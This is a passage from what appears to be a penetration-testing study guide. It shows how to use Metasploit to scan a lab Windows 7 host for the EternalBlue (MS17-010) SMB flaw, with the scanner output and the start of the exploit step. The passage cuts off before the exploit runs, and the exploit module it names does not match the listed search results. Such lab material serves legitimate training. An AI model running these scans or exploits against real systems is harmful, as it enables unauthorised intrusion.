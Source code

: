 ```bash
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce
```
First, we want to use the less invasive module, which is auxiliary. In this case, we can use the SMB scanner `auxiliary/scanner/smb/smb_ms17_010`. To choose this, type `use 3` and it will set the module context for the console.

This module should tell us whether the target is vulnerable to EternalBlue by scanning it. To see what variables we need to set, type `options` and/or `info`:
![](nested-repos/PNPT-study-guide/PNPT-pics/blue-1.png)
![](/PNPT-study-guide/PNPT-pics/blue-1.png)
Set `RHOSTS` to our target using `set rhosts <target IP>`. Now we can type `run` to scan the target:
```bash
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.0.2.6:445          - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 10.0.2.6:445          - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
### Exploit Module
Now that we've confirmed this box is vulnerable, let's use metasploit to exploit it. In `msfconsole`, search "eternalblue" again. This time, choose the windows exploit `exploit/windows/smb/smb_ms17_010`.
